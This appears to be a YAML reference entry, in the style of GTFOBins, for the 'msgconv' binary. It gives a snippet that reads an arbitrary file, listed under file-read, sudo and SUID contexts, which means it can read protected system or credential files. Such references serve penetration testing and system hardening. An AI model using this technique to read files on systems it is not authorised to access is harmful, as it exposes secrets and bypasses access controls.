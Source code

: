 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        msgconv -P $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        msgconv -P $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        msgconv -P $LFILE
---
```

